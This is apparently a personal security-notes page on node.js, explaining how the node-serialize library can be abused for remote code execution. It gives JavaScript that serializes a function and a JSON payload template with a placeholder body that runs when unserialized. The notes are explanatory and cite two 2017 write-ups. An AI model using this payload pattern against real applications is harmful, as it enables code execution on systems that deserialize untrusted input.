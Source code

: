 # node.js

node is a technology allowing server based apps to be written in Javascript.  Why?  I get why...but why?

In all seriousness it's pretty cool, but requires a different approach than the standard php based web applications that are so common.

## Serialize/Unserialize

With node, and in all honesty any serialization framework, there can be issues if the application accepts untrusted input.  With `node-serialize` we can use the following code to serialize a custom function object.

```js
var y = {
    rce: function(){eval(<function>)}
}

var serialize = require('node-serialize')
console.log("Serialized: \n" + serialize.serialize(y))
```

If we then modify the output to call the resulting object as a function we get:

```json
{"rce":"_$$ND_FUNC$$_function (){eval(<function>)}()"}
```

One the object is unserialized, the function will be called.

### References

[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)[https://blog.websecurify.com/2017/02/hacking-node-serialize.html](https://blog.websecurify.com/2017/02/hacking-node-serialize.html)

